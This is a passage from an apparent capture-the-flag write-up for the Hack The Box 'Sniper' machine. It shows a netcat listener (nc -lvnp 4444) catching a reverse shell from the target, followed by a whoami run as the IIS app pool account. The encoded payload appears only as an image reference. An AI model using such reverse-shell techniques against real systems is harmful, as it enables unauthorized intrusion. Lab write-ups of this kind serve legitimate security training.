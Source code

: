 Encoding the payload
![](Sniper_web6.png)

Now sending this payload and starting the netcat listener on port 4444.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Sniper.htb]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.151] 49722
SOCKET: Shell has connected! PID: 4960
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
iis apppool\defaultapppool
```

Looking at the SMB Logs
![](Sniper_web8.png)

We got the shell as `iis apppool\defaultapppool`.
### `Upgrading Shell Without SSH/Evil-Winrm/wmiexec`
